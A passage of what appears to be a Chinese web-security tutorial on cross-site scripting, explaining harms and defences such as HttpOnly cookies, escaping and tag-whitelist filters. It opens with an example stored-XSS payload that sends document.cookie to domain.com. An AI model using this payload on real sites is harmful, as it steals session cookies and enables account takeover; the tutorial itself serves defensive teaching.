 ```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

###### ③ 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

###### ④ 防范手段

答案很简单，**坚决不要相信用户的任何输入**，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

**I 设置 Cookie 为 HttpOnly**

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

**II 过滤特殊字符，进行转义处理**

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被**转义**，而 h 和 p 等标签将会保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
</script>
```

```html
<h1>XSS Demo</h1>

<p>123</p>

&lt;form&gt;
  &lt;input type="text" name="q" value="test"&gt;
&lt;/form&gt;

<pre>hello</pre>

&lt;script type="text/javascript"&gt;
alert(/xss/);
&lt;/script&gt;
```
